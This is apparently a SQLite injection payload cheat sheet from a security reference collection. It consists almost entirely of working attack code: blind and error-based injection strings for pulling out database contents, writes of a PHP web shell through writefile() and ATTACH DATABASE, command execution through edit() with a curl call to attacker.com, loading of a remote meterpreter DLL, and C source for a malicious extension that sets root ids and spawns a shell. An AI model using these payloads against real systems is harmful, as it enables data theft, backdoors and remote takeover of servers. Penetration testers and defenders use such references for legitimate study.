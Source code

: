 # SQLite Injection

## Summary

- [SQLite Injection](#sqlite-injection)
  - [Summary](#summary)
  - [Basics](#basics)
  - [Built-in scalar functions](#built-in-scalar-functions)
  - [SQLite version](#sqlite-version)
  - [String based - Extract database structure](#string-based---extract-database-structure)
  - [Integer/String based - Extract table name](#integerstring-based---extract-table-name)
  - [Integer/String based - Extract column name](#integerstring-based---extract-column-name)
  - [Boolean - Count number of tables](#boolean---count-number-of-tables)
  - [Boolean - Enumerating table name](#boolean---enumerating-table-name)
  - [Boolean - Extract info](#boolean---extract-info)
  - [Boolean - Extract info (order by)](#boolean---extract-info-order-by)
  - [Boolean - Error based](#boolean---error-based)
  - [Time based](#time-based)
  - [Arbitrary File Read and Write](#arbitrary-file-read-and-write)
    - [`readfile()/writefile()`](#readfilewritefile)
    - [`ATTACH DATABASE`](#attach-database)
  - [Remote Command Execution](#remote-command-execution)
    - [`edit()`](#edit)
    - [`load_extension()`](#load_extension)
  - [List all available functions](#list-all-available-functions)
  - [References](#references)
## Basics
```sql
-- Single line comment
/* Multiline
   comment */

-- Concatenation operator
"abc" || "def"              -- "abcdef"

-- BLOB literals
X'2f6574632f706173737764'   -- /etc/passwd

-- Escaping quotes
'5 O''clock'                -- 5 O'clock
"""quote"""                 -- "quote"
```

## [Built-in scalar functions](https://www.sqlite.org/lang_corefunc.html)
```sql
char(112,97,115,115,119,100)      -- passwd
hex('/etc/passwd')                -- 2f6574632f706173737764
unhex('2f6574632f706173737764')   -- /etc/passwd    (only since 3.41.0)

length("abcdef")                  -- 6
substr("abcdef", 4, 3)            -- def
```

## SQLite version

```sql
select sqlite_version();
```

## String based - Extract database structure

```sql
SELECT sql FROM sqlite_schema
```

## Integer/String based - Extract table name

```sql
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

## Integer/String based - Extract column name

```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
```

For a clean output

```sql
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

Cleaner output

```sql
SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('table_name');
```

## Boolean - Count number of tables

```sql
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name

```sql
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract info

```sql
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Boolean - Extract info (order by)

```sql
CASE WHEN (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('some_char') THEN <order_element_1> ELSE <order_element_2> END
```

## Boolean - Error based

```sql
AND CASE WHEN [BOOLEAN_QUERY] THEN 1 ELSE load_extension(1) END
```

## Time based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```

## Arbitrary File Read and Write
### [`readfile()/writefile()`](https://www.sqlite.org/cli.html#file_i_o_functions)
These two functions are **not available** unless extension is loaded or option has been selected when compiling SQLite.

These functions are disabled in `--safe` mode.
```sql
SELECT readfile('/etc/passwd');
SELECT writefile('lol.php',"<?php system($_GET['cmd']); ?>");
```

### [`ATTACH DATABASE`](https://www.sqlite.org/lang_attach.html)
This keyword is disabled in `--safe` mode.
```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

## Remote Command Execution
### [`edit()`](https://www.sqlite.org/cli.html#editfunc)
Since version **3.22.0** (2018), if you have a TTY/PTY you can use [`edit()` function](https://www.sqlite.org/cli.html#editfunc).

This function is disabled in `--safe` mode.
```sql
SELECT 1 FROM t WHERE edit('','sh -c id');
SELECT 1 FROM t WHERE edit('','sh -c "ls -alh"');
SELECT 1 FROM t WHERE edit('','vim -c":!curl http://attacker.com" -c:q!');
SELECT 1 FROM t WHERE edit('','vim');               -- would require a TTY/PTY
SELECT 1 FROM t WHERE edit('','/usr/bin/vim');      -- would require a TTY/PTY
```

### [`load_extension()`](https://www.sqlite.org/loadext.html)

This function is **disabled by default.**

The second argument determines what function to call from the lib. When the second argument is not specified the `sqlite3_extension_init()` function gets called instead.
```sql
SELECT 1 FROM t WHERE load_extension('./evil');
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

```c
// Sample SQLite extension with setuid and shell
//
//  *nix: gcc -g -fPIC -shared lib.c -o lib.so
// MacOS: gcc -g -fPIC -dynamiclib lib.c -o lib.dylib
// MinGW: gcc -g -fPIC -shared lib.c -o lib.dll
//  MSVC: cl lib.c -link -dll -out:lib.dll

#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
#include <sqlite3ext.h>
SQLITE_EXTENSION_INIT1

#ifdef _WIN32
__declspec(dllexport)
#endif
int sqlite3_extension_init(
  sqlite3 *db, 
  char **pzErrMsg, 
  const sqlite3_api_routines *pApi
){
  int rc = SQLITE_OK;
  SQLITE_EXTENSION_INIT2(pApi);
  setuid (0);
  setgid (0);
  execve ("/bin/sh", 0,0);
  return rc;
}
```

## List all available functions
```sql
SELECT name FROM pragma_function_list;
```

## References
- [Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
- [SQLite Error Based Injection for Enumeration](https://rioasmara.com/2021/02/06/sqlite-error-based-injection-for-enumeration/)
